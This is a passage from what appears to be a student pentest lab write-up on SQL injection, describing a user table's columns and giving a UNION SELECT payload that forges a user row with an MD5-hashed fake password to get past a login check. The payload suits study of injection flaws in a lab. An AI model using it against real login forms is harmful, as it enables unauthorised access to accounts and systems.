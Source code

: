 <img src="https://github.com/pentest-khoa-02/Group1/blob/solution/solution/SQL%20Injection/images/25.png" width="666px">
</p>

See the user table structure, the value are id,username,email,password respectively

I created a payload with a fake password

`oke' UNION SELECT '0','minhdz','minhdz@gmail.com','202cb962ac59075b964b07152d234b70'--`

<p align="center">
